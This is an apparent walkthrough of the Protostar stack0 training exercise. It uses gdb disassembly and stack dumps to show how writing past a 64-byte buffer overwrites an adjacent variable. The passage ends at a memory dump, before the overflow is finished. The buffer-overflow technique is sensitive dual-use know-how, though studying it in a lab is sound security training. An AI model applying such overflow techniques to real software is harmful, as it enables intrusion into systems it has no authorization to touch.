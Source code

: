 ```
0x080483fd <main+9>:  mov    DWORD PTR [esp+0x5c],0x0
```

This is the modified variable since that memory address is checked at a later point to see if it's set to 0 using test $eax, $eax.

The next few lines says that the buffer array starts at the memory address $esp + 0x1c.

```
0x08048405 <main+17>:   lea    0x1c(%esp),%eax
0x08048409 <main+21>:   mov    %eax,(%esp)
0x0804840c <main+24>:   call   0x804830c <gets@plt>
```

Given that `0x5c - 0x1c` is 64 bytes, we see that buffer and modified are allocated right next to each other on the stack.

We can modify the modified variable by writing past the space allocated for the buffer. A so called [buffer overflow](https://en.wikipedia.org/wiki/Buffer\_overflow). We set a breakpoint at `*0x080483fd`, because there the variable modified is set to 0.

```
(gdb) break *0x80483fd
Breakpoint 1 at 0x80483fd: file stack0/stack0.c, line 10.
```

Now let's run the program.

```
(gdb) r
Starting program: /opt/protostar/bin/stack0 

Breakpoint 1, main (argc=1, argv=0xbffffd64) at stack0/stack0.c:10
10  stack0/stack0.c: No such file or directory.
  in stack0/stack0.c
(gdb) next
11  in stack0/stack0.c
(gdb) next
AAAAAAAAAAAAAAAAAAAAAAAA
13  in stack0/stack0.c
```

If you have typed in next twice the program waits for an input, so we typed in some capital A's.

The variables are stored in stack. That means we can now view them. In order to do it, we can use this command x/40x $esp. Let’s analyze it. Letters x means that the output will be printed in the hexadecimal format, 40 is the number of elements that we want to print and $esp is the name of the register we want to use.

(gdb) x/40xw $esp

0xbffff770:     0xbffff78c      0x00000001      0xb7fff8f8      0xb7f0186e

0xbffff780:     0xb7fd7ff4     0xb7ec6165      0xbffff798       0x41414141

0xbffff790:     0x41414141   0x41414141     0x414141    0x080482e8

0xbffff7a0:     0xb7ff1040     0x08049620     0xbffff7d8        0x08048469
